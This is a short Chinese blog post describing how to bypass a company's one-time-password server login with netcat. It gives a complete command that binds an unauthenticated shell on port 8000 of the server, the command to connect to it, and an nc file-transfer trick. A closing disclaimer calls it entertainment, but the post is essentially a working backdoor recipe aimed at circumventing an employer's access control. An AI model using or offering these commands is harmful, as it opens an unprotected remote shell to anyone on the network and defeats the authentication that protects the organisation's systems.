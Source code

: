 ```yaml
---
layout: post
title:  "通过nc来远程跑命令"
date:   2016-05-05 13:36:14 +0800
---
```


公司服务器登陆用了OTP(one time password), 每次登陆服务器都要输入不同的token, 有些麻烦. 大家讨论有哪些办法可以绕过去. 我想到了nc.

**以下全部没有任何实际价值, 仅供娱乐!**

在服务器上面:

    tail -0f p | nc -k -l 8000 | bash >> p

在自己机器上面:

    nc 172.17.0.3 8000

**甚至可以传文件!**

先在自己机器上通过nc在服务器运行

    nohup nc -l 8001 > /tmp/a &

然后在自己机器:

    cat 1 | nc 172.17.0.3 8001
